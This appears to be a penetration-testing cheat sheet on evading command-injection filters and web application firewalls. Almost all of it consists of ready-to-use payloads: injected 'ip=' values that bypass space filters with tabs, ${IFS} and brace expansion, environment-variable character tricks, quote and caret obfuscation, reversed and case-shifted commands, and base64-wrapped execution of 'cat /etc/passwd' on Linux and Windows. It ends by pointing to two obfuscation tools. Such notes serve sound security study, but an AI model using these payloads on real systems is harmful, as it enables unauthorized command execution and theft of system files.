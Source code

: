 Identify if there are any command injection filters or WAF's in place.

> [!NOTE] Note
>  If the error message displayed a different page, with information like our IP and our request, this may indicate that it was denied by a WAF

### Space Filter
Use a tab (`%09`) instead of a space
```php
ip=127.0.0.1\n%09id
```
Use `${IFS}` in place of a space
```php
ip=127.0.0.1\n${IFS}id
```
Bash Brace Expansions
```php
ip=127.0.0.1\n{ls,-la}
```
### Substitute with Environment Variables
Linux
```shell
echo ${PATH:0:1}
/
ip=127.0.0.1%0a${IFS}ls${IFS}${PATH:0:1}home

echo ${LS_COLORS:10:1}
;
ip=127.0.0.1${LS_COLORS:10:1}id
```

```php
ip=127.0.0.1${LS_COLORS:10:1}${IFS}id
```
Windows
```powershell
echo %HOMEPATH:~6,-11%      <-- command prompt
\
$env:HOMEPATH[0]            <-- powershell 
\
```

### Command Filters
Use quotes Linux+Windows
```shell
w'h'o'am'i
i"d"
```
Linux only
```shell
who$@ami
w\ho\am\i
```
Window only
```powershell
who^ami
```
### Advanced Obfuscation

> [!NOTE] Note
> If there are spaces within the payload, those may need to get subbed out as well

Case manipulation - Windows
```shell
WhOaMi
```
Linux - case sensitive
```shell
$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")
$(a="WhOaMi";printf %s "${a,,}")
```
Reversed commands - Linux
```shell
echo 'whoami' | rev

$(rev<<<'imaohw')
```
Windows
```powershell
"whoami"[-1..-20] -join ''

iex "$('imaohw'[-1..-20] -join '')"
```
Custom Base64 encoding - Linux -**<<< can be used to substitute |**
```shell
echo -n 'cat /etc/passwd | grep 33' | base64
Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==

bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)
```
Windows
```powershell
[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))
echo -n whoami | iconv -f utf-8 -t utf-16le | base64    <--LINUX

iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"
```
#### Evasion tools
- https://github.com/Bashfuscator/Bashfuscator
- https://github.com/danielbohannon/Invoke-DOSfuscation